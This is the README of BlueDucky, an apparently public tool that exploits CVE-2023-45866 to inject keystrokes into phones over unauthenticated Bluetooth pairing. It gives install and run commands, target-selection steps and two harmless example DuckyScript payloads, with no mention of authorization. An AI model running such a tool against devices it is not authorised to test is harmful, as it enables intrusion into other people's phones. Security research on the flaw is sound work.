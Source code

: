 # BlueDucky (Android) 🦆 modified by GippokratOA and On1onss

Thanks to all the people at HackNexus. Make sure you come join us on VC !
https://discord.gg/HackNexus

1. [saad0x1's GitHub](https://github.com/saad0x1)
2. [spicydll's GitHub](https://github.com/spicydll)

<p align="center">
  <img src="./images/duckmenu.png">
</p>

🚨 CVE-2023-45866 - BlueDucky Implementation (Using DuckyScript)

🔓 Unauthenticated Peering Leading to Code Execution (Using HID Keyboard)

[This is an implementation of the CVE discovered by marcnewlin](https://github.com/marcnewlin/hi_my_name_is_keyboard)

<p align="center">
  <img src="./images/BlueDucky.gif">
</p>

## Introduction 📢
BlueDucky is a powerful tool for exploiting a vulnerability in Bluetooth devices. By running this script, you can:

1. 📡 Load saved Bluetooth devices that are no longer visible but have Bluetooth still enabled.
2. 📂 Automatically save any devices you scan.
3. 💌 Send messages via ducky script format to interact with devices.

I've successfully run this on a Raspberry Pi 4 using the default Bluetooth module. It works against various phones, with an interesting exception for a New Zealand brand, Vodafone.

## Installation and Usage 🛠️

### Setup Instructions

```bash
# update apt
sudo apt-get update
sudo apt-get -y upgrade

# install dependencies from apt
sudo apt install -y bluez-tools bluez-hcidump libbluetooth-dev \
                    git gcc python3-pip python3-setuptools \
                    python3-pydbus

# install pybluez from source
git clone https://github.com/pybluez/pybluez.git
cd pybluez
sudo python3 setup.py install

# build bdaddr from the bluez source
cd ~/
git clone --depth=1 https://github.com/bluez/bluez.git
gcc -o bdaddr ~/bluez/tools/bdaddr.c ~/bluez/src/oui.c -I ~/bluez -lbluetooth
sudo cp bdaddr /usr/local/bin/
```

## Running BlueDucky
```bash
git clone https://github.com/pentestfunctions/BlueDucky.git
cd BlueDucky
sudo hciconfig hci0 up
python3 BlueDucky.py
```

## Operational Steps 🕹️
1. On running, it prompts for the target MAC address.
2. Pressing nothing triggers an automatic scan for devices.
3. Devices previously found are stored in known_devices.txt.
4. If known_devices.txt exists, it checks this file before scanning.
5. Executes using payload.txt file.
6. Successful execution will result in automatic connection and script running.

## Duckyscript 💻
🚧 Work in Progress:
- Suggest me ideas


#### 📝 Example payload.txt:
```bash
REM Title of the payload
STRING ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()_-=+\|[{]};:'",<.>/?
GUI D
```

```bash
REM Opens a private browser to hackertyper.net
DELAY 200
ESCAPE
GUI d
ALT ESCAPE
GUI b
DELAY 700
REM PRIVATE_BROWSER is equal to CTRL + SHIFT + N
PRIVATE_BROWSER
DELAY 700
CTRL l
DELAY 300
STRING hackertyper.net
DELAY 300
ENTER
DELAY 300
```

## Enjoy experimenting with BlueDucky! 🌟







